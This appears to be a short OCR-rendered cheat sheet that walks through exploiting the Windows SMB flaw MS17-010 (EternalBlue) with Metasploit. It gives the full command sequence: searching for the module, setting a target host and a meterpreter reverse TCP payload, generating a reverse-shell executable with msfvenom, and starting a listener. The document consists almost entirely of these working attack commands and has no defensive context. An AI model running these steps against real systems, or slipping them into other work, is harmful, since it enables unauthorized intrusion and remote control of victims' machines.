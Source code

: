 1. **Search an exploit**
    

```text
msf6 > search ms17_010
```

2. **Use and configure exploit**
    

```text
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show options
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 10.10.10.5
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 10.0.0.5
msf6 exploit(ms17_010_eternalblue) > exploit
```

3. **Generate a payload with msfvenom**
    

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o /tmp/rev.exe
```

4. **Start handler**
    

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.5
msf6 exploit(multi/handler) > exploit -j
```

---

